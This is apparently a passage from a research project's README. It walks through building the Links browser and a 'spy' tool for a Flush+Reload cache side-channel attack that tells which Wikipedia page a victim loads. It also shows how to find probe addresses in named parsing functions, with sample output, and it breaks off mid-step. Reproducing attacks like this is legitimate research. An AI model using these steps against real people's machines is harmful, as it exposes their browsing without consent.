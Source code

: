 #### 1.2. Compile Links <a name="CompileLinks"></a>

Now compile a Links binary.

```bash
➜ cd links-2.13
➜ ./configure
➜ make
```

#### 1.3. Copy the Links Binary <a name="CopyTheLinksBinary"></a>

Copy the Links binary into the `gather_cpu_data/experiments/links/binaries`:

```bash
➜ cp links gather_cpu_data/experiments/links/binaries/links
```

### 2. Compile the Spying Tool <a name="CompileTheSpyingTool"></a>

Compile the `spy` binary which implements the actual Flush+Reload side-channel
attack:

```bash
➜ cd  gather_cpu_data/flush-reload/myversion/
➜ make lib
➜ make
➜ make cleanall
```

### 3. Find the Probe Addresses <a name="FindTheProbeAddresses"></a>

We've already identified some good Flush+Reload probe locations to make the
Wikipedia page distinguishing attack work. They are the first cache lines of the
functions `kill_html_stack_item()`, `html_stack_dup()`, `html_a()`, and
`parse_html()`. We need to find the addresses of those cache lines.

#### 3.1. Run the Probe Address Finding Tool <a name="RunTheProbeAddressFindingTool"></a>

Run the probe address finding tool to look up the addresses (My probes will likely not be the same as yours):

```bash
➜ ./attack_tools.py find-addr ../../experiments/links/binaries/links --probes kill_html_stack_item,html_stack_dup,html_a,parse_html
A:0xbe710
B:0xbedf0
C:0xbe820
D:0xc1f90
```

or
